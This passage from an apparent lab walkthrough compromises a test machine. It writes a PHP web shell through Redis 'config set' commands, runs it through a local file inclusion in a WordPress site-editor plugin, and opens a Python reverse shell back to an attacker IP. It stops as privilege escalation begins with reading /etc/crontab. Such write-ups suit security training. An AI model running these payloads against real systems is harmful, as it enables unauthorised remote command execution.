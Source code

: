 You can read more about it here: https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

```
config set dir /dev/shm
config set dbfilename abeg.php
set test "<?php system($_GET['cmd']); ?>"
save
```
```
192.168.53.166:6379> config set dir /dev/shm
OK
192.168.53.166:6379> config set dbfilename abeg.php
OK
192.168.53.166:6379> set test "<?php system($_GET['cmd']); ?>"
OK
192.168.53.166:6379> save
OK
192.168.53.166:6379> 
```
Now, lets acces the created file in our webserver

Link:http://192.168.53.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/dev/shm/abeg.php&cmd=id

![image](https://user-images.githubusercontent.com/67879936/222606641-017a4689-d4c9-4b5b-a081-c6929c331b22.png)

it worked, nice. Now, lets try to upload a shell so we can get a reverse shell back on our machine

payload:```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.53",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'```

>Note: The IP and Port will be different from yours, The IP should be your own IP address not the target, while the port number should be one you want netcat to listen to

Link:192.168.53.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/dev/shm/abeg.php&cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.53%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/sh%22)%27

Going to this link and setting up your netcat listener, you should get a shell as user "Alice"

![image](https://user-images.githubusercontent.com/67879936/222607346-dc67666f-1e73-4ef1-bc36-3005f82cc72a.png)

Now that we are logged in, lets go ahead and escalate our privileges



<h2>Privilege Escalation</h2>

It seems there's a cronjob running on this machine

>command: cat /etc/crontab

![image](https://user-images.githubusercontent.com/67879936/222608098-58a4a145-6cc2-40c5-9592-16f309c984e8.png)

What the ```backup.sh``` script does is that it performs a regular backup of a website's file based on recent modifications (within the last 3 mins)
